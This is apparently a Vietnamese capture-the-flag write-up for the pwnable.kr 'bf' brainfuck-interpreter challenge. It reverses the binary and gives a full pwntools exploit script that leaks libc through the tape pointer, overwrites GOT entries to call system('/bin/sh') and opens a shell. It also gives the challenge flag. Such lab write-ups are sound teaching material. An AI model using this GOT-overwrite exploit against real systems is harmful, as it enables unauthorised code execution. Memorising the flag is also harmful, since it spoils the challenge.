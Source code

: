 # BrainFuck

## Reverse file
Xem thông tin cơ bản của file bf

```sh
thang@DESKTOP-V2RPTL6:/mnt/c/Users/n18dc/OneDrive/Desktop/pwnable.kr/bf$ file bf
bf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=190d45832c271de25448cefe52fbd15ea9ed5e65, not stripped
```

Xem các cơ chế bảo mật của file
```sh
thang@DESKTOP-V2RPTL6:/mnt/c/Users/n18dc/OneDrive/Desktop/pwnable.kr/bf$ checksec bf
[*] '/mnt/c/Users/n18dc/OneDrive/Desktop/pwnable.kr/bf/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Reverse pseudo code từ IDA nhận thấy hàm main của chương trình nhập 1 lần vào biến S, chạy vòng lặp từ 0 -> bé hơn strlen(S), và thực thi do_brainfuck[S[i]]:
```sh
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t i; // [esp+28h] [ebp-40Ch]
  char s[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(s, 0, sizeof(s));
  fgets(s, 1024, stdin);
  for ( i = 0; i < strlen(s); ++i )
    do_brainfuck(s[i]);
  return 0;
}
```

Đây là hàm do_brainfuck với các case tương ứng:
```sh
* '+' : tăng giá trị bên trong con trỏ p đang trỏ tới.
* ',' : nhập 1 kí tự
* '-' : giảm giá trị bên trong con trỏ p đang trỏ tới.
* '.' : in ra 1 ký tự đang trỏ tới bởi p.
* '<' : giảm địa chỉ con trỏ p xuống 1 byte.
* '>' : tăng địa chỉ con trỏ p lên 1 byte.
* '[' : thực thi lệnh puts
```

```sh
int __cdecl do_brainfuck(char a1)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = a1 - 43;
  switch ( a1 )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

## Exploit

#### Các bước thực hiện
* leak libc, tính base, system, binsh
* getshell 

Do có thể di dời con trỏ p, nhập và in được 1 byte nên sẽ leak được libc bằng các ký tự `.>.>.>.`

Overwrite GOT setvbuf và stdout thành system và /bin/sh tương ứng bằng các ký tự `,>,>,>,`

Payload
```sh
from pwn import *
import time
# s = process("./bf")
# libc = ELF("/lib/i386-linux-gnu/libc.so.6")
s = remote("pwnable.kr", 9001)
libc= ELF("./libc2.so")
pause()
RET = 0x08048416
PLT_PUTS = 0x8048470
GOT_FGETS = 0x804a010
MAIN = 0x8048671
LEAVE_RET = 0x08048549
ADD_ESP_24 = 0x804866b

#leak libc

payload ="<"*0x90 + ".>.>.>. >>>>>,>,>,>,>" + ">"*10 +">>,>,>,>,>" + ">"*0x34 + ',>,>,>,['

s.recv()
# s.recvuntil("type some brainfuck instructions except [ ]\n")
s.sendline(payload)
time.sleep(4)
FGETS = u32(s.recv(4).ljust(4,'\x00'))

libc.address = FGETS - libc.symbols['fgets']

# one_gadget = libc.address + ONE_GG
binsh  = next(libc.search("/bin/sh"))
system = libc.symbols['system']

print "fgets > " + hex(FGETS)
print "libc >> " + hex(libc.address)
print "system >> " + hex(system)
print "binsh >> " + hex(binsh)
# print "one >> " + hex(one_gadget)
s.send(p32(MAIN))
s.send(p32(system))
s.send(p32(binsh))
s.interactive()

```
# Flag = `BrainFuck? what a weird language..`